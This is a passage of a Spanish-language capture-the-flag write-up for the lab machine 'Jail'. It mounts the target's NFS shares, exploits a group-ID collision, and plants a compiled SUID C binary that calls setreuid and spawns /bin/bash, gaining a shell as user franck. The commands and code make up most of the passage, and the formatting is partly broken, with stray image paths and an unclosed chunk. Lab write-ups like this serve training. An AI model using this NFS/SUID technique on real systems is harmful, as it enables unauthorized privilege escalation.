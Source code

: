 Vemos que podemos lanzar el script pero no sabemos exactamente lo que hace y no lo podemos debuggear. 

Miramos a los recursos compartidos **nfs** de la maquina

```bash
cat /etc/exports
```

Nos creamos dos monturas en nuestra maquina de atacante

```bash
mkdir /mnt/{opt,var}
cd /mnt
mount -t nfs 10.10.10.34:/opt /mnt/opt
mount -t nfs 10.10.10.34:/var/nfsshare /mnt/var
ls -l
ls -l opt/
ls -l opt/logreader
ls -l opt/rh
ls -l var/
```

Aqui vemos que no tenemos derechos de lectura ni de escritura sobre el directorio opt y var pero algo que nos llama la atencion son los user y groups asignados a estos 
directorios, sobre todo el directorio var que se nos aparece como estando del grupo docker.

```{r, echo = FALSE, fig.cap="groups nfs share folders", out.width="90%"}
    knitr::include_graphics("images/Jail-lla.png")
hay una colision entre los dos grupos y que como usuario del grupo docker en nuestra maquina de atacante, podemos crear ficheros como el usuario franck de la
![Jail-lla](/assets/images/Jail-lla.png) 
maquina victima

> [ ! ] NOTAS: Si no existe docker en nuestra maquina de atacante, tendriamos que ver el numero 1000 y tendriamos que crear un grupo con este id para operar

1. Creamos un fichero en C en el directorio `/mnt/var`

    ```bash
    #include <unistd.h>
    #include <stdio.h>

    int main(){
        setreuid(1000, 1000);
        system("/bin/bash");
        return 0;
    }
    ```

1. Compilamos el script

    ```bash
    gcc shell.c -o shell
    ```

1. Cambiamos el grupo y ponemos derechos SUID al binario

    ```bash
    chgrp 1000 shell
    chmod u+s shell
    ```

1. lanzamos el script desde la maquina victima

    ```bash
    ./shell
```